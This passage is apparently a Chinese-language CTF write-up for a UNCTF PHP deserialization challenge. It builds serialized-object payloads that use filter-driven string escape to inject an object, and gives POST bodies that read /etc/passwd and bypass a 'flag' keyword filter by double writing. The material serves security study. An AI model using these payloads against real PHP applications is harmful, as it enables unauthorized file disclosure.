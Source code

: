 发现顺序不一样，我们按照输出的顺序来，输出为

`O:5:"UNCTF":3:{s:4:"pass";s:1:"3";s:5:"email";s:1:"2";s:4:"name";s:1:"1";}`

加上字符串逃逸先修改payload试试，尝试覆盖name的值

`O:5:"UNCTF":3:{s:4:"pass";s:1:"flagflagflagflagflag";s:5:"email";s:1:"2";s:4:"name";s:1:"1";}`

name过滤后吃掉即可成为

`O:5:"UNCTF":3:{s:4:"pass";s:1:"【";s:5:"email";s:1:"2】";s:4:"name";s:1:"1";}`

然后我们加上自己的payload

`O:5:"UNCTF":3:{s:4:"pass";s:1:"【";s:5:"email";s:1:"2】";s:5:"email";s:1:"9;s:4:"name";s:2:"99";}s:4:"name";s:1:"1";}`

改完后

`O:5:"UNCTF":3:{s:4:"pass";s:1:"a";s:4:"name";O:9:"me7eorite":2:{s:4:"safe";s:1:"a";s:5:"class";O:9:"me7eorite":2:{s:4:"safe";s:5:"1.txt";s:5:"class";N;}}s:5:"email";s:1:"a";}`

尝试加上字符串逃逸包含/etc/passwd

`action=1&pass=flagflagflagphpphpphp&email=";s:5:"email";s:1:"b";s:4:"name";O:9:"me7eorite":2:{s:4:"safe";s:1:"a";s:5:"class";O:9:"me7eorite":2:{s:4:"safe";s:11:"/etc/passwd";s:5:"class";N;}}`

![](./i/8.png)

直接去寻找flag,这里有个憨憨的点，做出来了兴奋过头了然后忘记了过滤了flag......直接双写绕过

`action=1&pass=flagflagflagphpphpphp&email=";s:5:"email";s:1:"b";s:4:"name";O:9:"me7eorite":2:{s:4:"safe";s:1:"a";s:5:"class";O:9:"me7eorite":2:{s:4:"safe";s:5:"/flflagag";s:5:"class";N;}}`
